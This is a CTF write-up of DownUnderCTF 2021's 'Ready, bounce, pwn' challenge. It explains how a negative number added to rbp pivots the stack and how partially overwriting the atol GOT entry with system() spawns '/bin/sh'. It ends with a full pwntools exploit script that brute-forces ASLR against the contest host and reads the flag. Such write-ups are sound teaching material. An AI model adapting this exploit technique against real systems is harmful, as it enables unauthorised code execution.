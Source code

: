 ![](https://github.com/nobodyisnobody/write-ups/raw/main/DownUnderCTF.2021/pwn/ready.bounce.pwn/pics/description.png)

**"Ready, bounce, pwn"** was a pwn challenge from DownUnderCTF 2021.

A medium difficulty challenge.

A small program, a bit tricky, but not too much.

ok first we check the protections:

![](https://github.com/nobodyisnobody/write-ups/raw/main/DownUnderCTF.2021/pwn/ready.bounce.pwn/pics/checksec.png)

Got entries are writable, and NO PIE, that will be good for us..

Let's start the reversing..

**the main function first:**

![](https://github.com/nobodyisnobody/write-ups/raw/main/DownUnderCTF.2021/pwn/ready.bounce.pwn/pics/reverse.main.png)

**then the second function read_long()**

![](https://github.com/nobodyisnobody/write-ups/raw/main/DownUnderCTF.2021/pwn/ready.bounce.pwn/pics/reverse.read.long.png)

Basically the program ask for a name, and read it as an input of 0x18 bytes on stack.

then ask the user to enter a number with the read_long function,

and convert it to long int , with atol function.

The number is returned, in rax, and added to rbp before the program ends, as you can see at the end of main function.

So the trick, is to send a negative number, -32,  like this rbp will point to our name given in input before on stack..

then ,when the program will reach leave / ret instructions at the end of main, stack will point to our name..

that leaves three ROP entries (0x18 bytes.. ) for our pivot... (we need only two in fact..)

when the instruction LEAVE execute, it will set rsp to rbp value, and first pop rbp register from new stack position.

so the trick is to set the new RBP, to points just before atol function GOT entry, at 0x404047...

and return back inside read_long function at 0x4011b1...

there it will read 0x13 bytes in the got entries..

we will set the two lsb bytes of atol GOT entry, to the address of system() function offset in libc (libc is given),

there will still be 4 bits of aslr to guess.. 1/16 chance to win !!

So with a little bruteforce, it will work...

just before the atol got entry, we put the string '/bin/sh', that will be given to atol (now system) as an argument.

it will do a system('/bin/sh') so....

and that's all.. :)

See it in action:

![](https://github.com/nobodyisnobody/write-ups/raw/main/DownUnderCTF.2021/pwn/ready.bounce.pwn/pics/rbp.gotshell.gif)

**The exploit code:**

```python3
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'error'

host, port = "pwn-2021.duc.tf","31910"

# return inside read_long function
gadget1 = 0x4011b1
'''
  4011b1:	48 8d 45 e0          	lea    rax,[rbp-0x20]
  4011b5:	ba 13 00 00 00       	mov    edx,0x13
  4011ba:	48 89 c6             	mov    rsi,rax
  4011bd:	bf 00 00 00 00       	mov    edi,0x0
  4011c2:	e8 89 fe ff ff       	call   401050 <read@plt>
  4011c7:	48 8d 45 e0          	lea    rax,[rbp-0x20]
  4011cb:	48 89 c7             	mov    rdi,rax
  4011ce:	e8 9d fe ff ff       	call   401070 <atol@plt>
  4011d3:	c9                   	leave  
  4011d4:	c3                   	ret    
'''

count=0
while (True):
  print(str(count))
  count +=1
  if args.LOCAL:
    p = process('./rbp')
  else:
    p = remote(host,port)
  payload = p64(0x404047)+p64(gadget1)
  p.sendafter('name? ',payload)
  p.sendafter('number? ','-32 '+'B'*15)
  p.send('/bin/sh'.ljust(0x11,'\x00')+'\x60\xda')
  p.sendline('id;')
  try:
    buff = p.recvuntil('uid', timeout=5)
    break
  except:
    p.close()

print(buff)
p.sendline('cat flag*')

p.interactive()
```

*nobodyisnobody still pwning things...*
